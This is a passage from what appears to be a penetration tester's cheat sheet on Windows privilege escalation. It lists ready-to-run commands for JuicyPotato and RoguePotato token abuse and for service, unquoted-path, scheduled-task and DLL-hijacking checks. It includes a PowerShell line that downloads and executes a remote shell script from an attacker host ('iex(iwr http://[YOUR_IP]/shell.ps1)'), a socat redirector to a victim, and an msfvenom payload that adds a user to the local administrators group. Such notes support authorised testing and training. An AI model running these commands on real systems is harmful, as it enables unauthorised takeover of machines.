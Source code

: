      juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}

### Rogue Potato   
[Blog post](https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/)   
[Code](https://github.com/antonioCoco/RoguePotato)  

run redirector on kali and exe on victim:

     socat tcp-listen:135,reuseaddr,fork tcp:VICTIM_IP:9999
     .\RoguePotato.exe -r YOUR_IP -e "command" -l 9999   
     test cmd: -e "cmd.exe /c ping YOUR_IP"  
     shell cmd: -e "powershell -c iex( iwr http://[YOUR_IP]/shell.ps1 -UseBasicParsing )"   
     using nishang web shell 
    
## Service Exploits 
    tasklist /svc 
    sc query 
    net start/stop service  
### Insecure Service Properties   
Dangerous perms: SERVICE_CHANGE_CONFIG, SERVICE_ALL_ACCESS 

    sc qc [service name]  
### Unquoted Service Paths   
Need unquoted service path and ability to start service 

    wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" 2>nul |findstr /i /v """   
    sc qc [service name]        #to check what account service runs under 
    powershell "get-acl -Path 'C:\Program Files (x86)\Service Folder' | format-list"     #to check dir perms 
    
Generate exe and upload   

    msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe  
    sc start service  
### Weak Registry Permissions
### Insecure Service Executables   
    icalcs Shared  
    accesschk.exe -uwcqv "Everyone" *
    accesschk.exe -uwcqv "Authenticated Users" *
    accesschk.exe -uwcqv "Users" *
### Scheduled Tasks
    schtasks /query /fo LIST 2>nul | findstr TaskName  
    dir C:\windows\tasks  
### DLL Search Order Hijacking  
[Windows Server 2008-2019](https://itm4n.github.io/windows-server-netman-dll-hijacking/)   

    accesschk.exe /accepteula -uvqc user [service name]             #look for: SERVICE_STOP, SERVICE_START    
